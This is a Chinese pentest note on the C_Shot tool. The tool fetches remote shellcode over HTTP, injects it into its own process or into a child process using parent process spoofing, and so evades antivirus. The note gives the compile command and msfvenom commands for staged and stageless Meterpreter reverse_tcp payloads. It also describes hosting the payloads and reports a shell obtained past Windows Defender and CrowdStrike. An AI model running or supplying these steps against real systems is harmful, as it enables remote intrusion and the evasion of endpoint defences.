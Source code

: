 	From:
	https://github.com/anthemtotheego/C_Shot
	http://blog.redxorblue.com/2020/07/cshot-just-what-doctor-ordered.html
	C_Shot是一种用C语言编写的攻击性安全工具，旨在通过HTTP / HTTPS下载远程shellcode二进制文件（.bin），注入并执行shellcode。
	1.shellcode注入其自己的进程
	2.使用父进程欺骗将shellcode注入子进程
	使用C_Shot之类的工具的好处是，我们要执行的恶意代码没有存储在二进制文件中，而是从远程位置检索，读入内存然后执行。这有助于使诸如C_Shot之类的工具对AV / EDR显得相当友好，并且不会被发现。
![image](/assets/Pentest_Note/master/img/773.png)

	cl / D _UNICODE / D UNICODE cshot.c
![image](/assets/Pentest_Note/master/img/774.png)

	生成分阶段payload
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -a x64 --platform windows -b "\x00" -f raw -o /root/Desktop/DefaultStaged.bin
	生成无阶段payload
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST= IP LPORT= PORT -a x64 --platform windows -b "\x00" -f raw -o /root/Desktop/DefaultStageless.bin
	现在我们已经建立了二进制文件，现在需要一个Web服务。例如运行python -m SimpleHTTPServer 80，或者将它们托管在外部某个地方。对于本文中的所有示例，我将使用github托管shellcode。
![image](/assets/Pentest_Note/master/img/775.png)

	确保windows defender打开。
![image](/assets/Pentest_Note/master/img/776.png)

	注入到自己的进程中
![image](/assets/Pentest_Note/master/img/777.png)

	测试分阶段的shellcode会被windows defender拦截
![image](/assets/Pentest_Note/master/img/778.png)

	无阶段的shellcode不会被拦截
![image](/assets/Pentest_Note/master/img/779.png)

	获得shell
![image](/assets/Pentest_Note/master/img/780.png)

	测试分阶段shellcode欺骗父进程方法：
![image](/assets/Pentest_Note/master/img/781.png)
![image](/assets/Pentest_Note/master/img/782.png)

	获得shell
![image](/assets/Pentest_Note/master/img/783.png)

	现在测试下CrowdStrike
	注入到自己的进程，两种shellcode都被拦截
![image](/assets/Pentest_Note/master/img/784.png)
![image](/assets/Pentest_Note/master/img/785.png)

	欺骗父进程
![image](/assets/Pentest_Note/master/img/786.png)

	获得shell
![image](/assets/Pentest_Note/master/img/787.png)
![image](/assets/Pentest_Note/master/img/788.png)

	分阶段和无阶段的shellcode在使用欺骗父进程方法时都可以绕过av。
	此工具在公共发行版中，没有进行任何形式的API隐藏，字符串混淆，内存保护技巧等工作。如果未进行任何修改，则对该工具的静态分析应该很容易发现。
